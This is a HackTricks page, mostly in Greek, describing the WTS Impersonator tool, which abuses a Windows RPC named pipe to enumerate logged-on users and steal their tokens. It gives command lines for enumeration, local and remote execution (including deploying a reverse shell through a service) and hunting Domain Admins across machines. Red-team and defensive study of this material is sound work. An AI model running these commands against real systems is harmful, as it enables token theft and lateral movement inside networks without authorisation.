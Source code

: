 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Το εργαλείο **WTS Impersonator** εκμεταλλεύεται τον **"\\pipe\LSM_API_service"** RPC Named pipe για να καταγράψει κρυφά τους συνδεδεμένους χρήστες και να κλέψει τα tokens τους, παρακάμπτοντας τις παραδοσιακές τεχνικές Token Impersonation. Αυτή η προσέγγιση διευκολύνει τις ομαλές πλευρικές κινήσεις εντός των δικτύων. Η καινοτομία πίσω από αυτή την τεχνική αποδίδεται στον **Omri Baso, του οποίου το έργο είναι προσβάσιμο στο [GitHub](https://github.com/OmriBaso/WTSImpersonator)**.

### Κύρια Λειτουργικότητα
Το εργαλείο λειτουργεί μέσω μιας ακολουθίας κλήσεων API:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### Key Modules and Usage
- **Αναγνώριση Χρηστών**: Η τοπική και απομακρυσμένη αναγνώριση χρηστών είναι δυνατή με το εργαλείο, χρησιμοποιώντας εντολές για κάθε σενάριο:
- Τοπικά:
```powershell
.\WTSImpersonator.exe -m enum
```
- Απομακρυσμένα, καθορίζοντας μια διεύθυνση IP ή όνομα υπολογιστή:
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **Εκτέλεση Εντολών**: Τα modules `exec` και `exec-remote` απαιτούν ένα **Service** context για να λειτουργήσουν. Η τοπική εκτέλεση χρειάζεται απλώς το εκτελέσιμο WTSImpersonator και μια εντολή:
- Παράδειγμα για τοπική εκτέλεση εντολής:
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- Το PsExec64.exe μπορεί να χρησιμοποιηθεί για να αποκτήσει ένα service context:
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **Απομακρυσμένη Εκτέλεση Εντολών**: Περιλαμβάνει τη δημιουργία και εγκατάσταση μιας υπηρεσίας απομακρυσμένα, παρόμοια με το PsExec.exe, επιτρέποντας την εκτέλεση με κατάλληλες άδειες.
- Παράδειγμα απομακρυσμένης εκτέλεσης:
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **Module Αναζήτησης Χρηστών**: Στοχεύει συγκεκριμένους χρήστες σε πολλές μηχανές, εκτελώντας κώδικα με τα διαπιστευτήριά τους. Αυτό είναι ιδιαίτερα χρήσιμο για την στόχευση Domain Admins με τοπικά δικαιώματα διαχειριστή σε αρκετά συστήματα.
- Παράδειγμα χρήσης:
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```


{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
